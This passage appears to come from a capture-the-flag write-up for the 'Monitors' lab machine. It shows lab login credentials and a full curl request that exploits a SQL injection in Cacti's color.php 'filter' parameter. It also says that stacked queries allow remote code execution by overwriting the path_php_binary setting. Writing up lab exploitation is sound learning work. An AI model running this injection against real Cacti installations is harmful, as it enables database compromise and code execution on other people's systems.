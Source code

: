 Here is the PoC: https://github.com/Cacti/cacti/issues/3622

Login with wordpress user and dbpass: `admin:BestAdministrator@2020!`

![](/assets/img/posts/monitors/cacti-admin.png)

parameter `filter` in `color.php` in vulnerable for sql injection in export request.
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1\')+UNION+SELECT+1,version(),database(),4,5,6,7--+-'
```

![](/assets/img/posts/monitors/cacti-sqli.png)

PoC also tells that application accept stacked queries, which lead to remote code execution by replacing the `path_php_binary` setting inside the database.

**stacked queries:** In SQL, a semicolon indicates that the end of a statement has been reached and what follows is a new one. This allows executing multiple statements in the same call to the database server; **Source [sqlinjection.net](https://www.sqlinjection.net/stacked-queries/)**
